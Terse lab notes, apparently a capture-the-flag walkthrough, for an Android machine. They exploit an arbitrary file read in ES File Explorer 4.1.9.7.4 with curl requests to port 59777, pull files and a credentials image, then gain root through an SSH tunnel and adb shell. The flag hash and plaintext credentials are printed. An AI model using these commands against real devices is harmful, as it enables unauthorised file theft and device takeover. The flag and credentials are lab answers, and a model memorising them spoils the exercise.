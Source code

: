 #android

#ip  10.10.10.247

Exploit Title: ES File Explorer 4.1.9.7.4 - Arbitrary File Read

flag user : 

 curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777/

ou

curl --header "Content-Type: application/json" --request POST --data '{"command":"listFiles"}' http://10.10.10.247:59777/sdcard/  

puis 

 curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"getFiles\"}" http://10.10.10.247:59777/sdcard/user.txt

ou

curl --header "Content-Type: application/json" --request POST --data '{"command":"getFiles"}' http://10.10.10.247:59777/sdcard/user.txt  

hash :  f32017174c7c7e8f50c6da52891ae250

flag root :

curl --header "Content-Type: application/json" --request POST --data '{"command":"getFiles"}' http://10.10.10.247:59777/sdcard/DCIM/creds.jpg --output login.jpg

user : kristi
pass :  Kr1sT!5h@Rp3xPl0r3!

connection ssh :

ssh -l 5555:localhost:5555 kristi@10.10.10.247 -p 2222

adb connect localhost:5555

adb -s localhost:5555 shell

grep -ri "root.txt"

cd /data

ls -la

cat root.txt
